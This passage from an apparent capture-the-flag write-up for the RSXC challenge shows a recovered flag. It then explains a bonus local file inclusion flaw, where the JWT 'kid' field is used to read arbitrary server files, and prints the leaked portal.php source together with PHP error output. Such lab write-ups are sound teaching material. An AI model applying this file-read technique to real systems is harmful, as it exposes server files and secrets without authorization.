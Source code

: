 The flag is: `RSXC{Don't_let_others_decide_where_your_keys_are_located}`

---

## Bonus LFI Vulnerability!

During the exploitation of the `JWT` I noticed that this web application has a local file inclusion vulnerability as well.

We can basically use the `kid`-field to read arbitrary files on the server.


### `kid = portal.php` (`view-source:http://rsxc.no:20015/portal.php`)

We can easily see the flag here as well.

```php

<br />
<b>Notice</b>:  <?php
include_once __DIR__ . "/includes/authorization_handler.php";
$username = (new AuthorizationHandler())::getUsername();

$flag = "RSXC{Don't_let_others_decide_where_your_keys_are_located}"

?>
<!DOCTYPE html>
<html lang="en" class="h-100">
<head>
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <meta name="description" content="">
    <link href="/assets/css/bootstrap.min.css" rel="stylesheet">
    <title>Tracker</title>
    <style>
    .container {
      width: auto;
      max-width: 680px;
      padding: 0 15px;
      }
    </style>
</head>

<body class="d-flex flex-column h-100">

<!-- Begin page content -->
<main class="flex-shrink-0">
  <div class="container">
    <h1>My personal notes</h1>
    <p><b>I fixed the last issue I had, and I have now decided to use 'KID' for more ease of use.</b></p>
    <?php
    if($username == "admin"){
      ?>
      <p>The flag is <?=$flag ?></p>
      <?php
    } else {
     ?>
    <p>You currently have no notes in <b>/var/www/html/includes/jwt.php</b> on line <b>28</b><br />
<br />
<b>Warning</b>:  openssl_verify(): supplied key param cannot be coerced into a public key in <b>/var/www/html/vendor/firebase/php-jwt/src/JWT.php</b> on line <b>272</b><br />
<br />
```